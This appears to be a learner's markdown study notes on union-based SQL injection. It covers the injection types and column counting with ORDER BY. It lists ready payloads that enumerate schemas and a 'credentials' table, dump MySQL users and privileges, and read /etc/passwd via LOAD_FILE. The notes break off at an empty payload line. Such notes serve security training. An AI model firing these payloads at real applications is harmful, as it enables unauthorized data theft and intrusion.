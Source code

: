 ![[Pasted image 20250404161804.png]]

In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as `In-band` SQL injection, and it has two types: `Union Based` and `Error Based`.

With `Union Based` SQL injection, we may have to specify the exact location, 'i.e., column', which we can read, so the query will direct the output to be printed there. As for `Error Based` SQL injection, it is used when we can get the `PHP` or `SQL` errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.

In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as `Blind` SQL injection, and it also has two types: `Boolean Based` and `Time Based`.

With `Boolean Based` SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns `true`. As for `Time Based` SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns `true` using the `Sleep()` function.

Finally, in some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as `Out-of-band` SQL injection.

In this module, we will only be focusing on introducing SQL injections through learning about `Union Based` SQL injection.


## SQLi Discovery
![[Pasted image 20250404164115.png]]

## Detect number of columns

Before going ahead and exploiting Union-based queries, we need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- Using `ORDER BY`
- Using `UNION`

#### Using ORDER BY

The first way of detecting the number of columns is through the `ORDER BY` function, which we discussed earlier. We have to inject a query that sorts the results by a column we specified, 'i.e., column 1, column 2, and so on', until we get an error saying the column specified does not exist.

For example, we can start with `order by 1`, sort by the first column, and succeed, as the table must have at least one column. Then we will do `order by 2` and then `order by 3` until we reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column we successfully sorted by gives us the total number of columns.

If we failed at `order by 4`, this means the table has three columns, which is the number of columns we were able to sort by successfully. Let us go back to our previous example and attempt the same, with the following payload:

```sql
' order by 1-- -
```

Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).


### SQLi Payloads
**UNION & ORDER BY** : 
- `val' UNION select 1,2,3,4-- -`
- `val' UNION select 1,@@version,3,4-- -`
- `' order by 2-- -`

**SCHEMATA** : 
- `SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`
- `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`
- `cn' UNION select 1,database(),2,3-- -`
- `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`  : This payload gives us the information regarding the column name, table name and table schema of the tables

## DB User
```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Injection payload will be : `value' UNION SELECT 1, user(), 3, 4-- -` or `value' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -`

## User Privileges
`SELECT super_priv FROM mysql.user` : This is the command used to know about the Super Admin Privileges.

`value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -` : This is the payload for the above command.
If we want to know about the privileges of a particular user, maybe 'root', so we'll use the payload as : `value' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -` : This payload is used to dump other privileges, we have directly from the schema.
If I need to have information about a particular user, then it becomes : `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`

## LOAD_FILE Function
Used to read data from files.
Query : `SELECT LOAD_FILE('etc/passwd');`
Payload : ``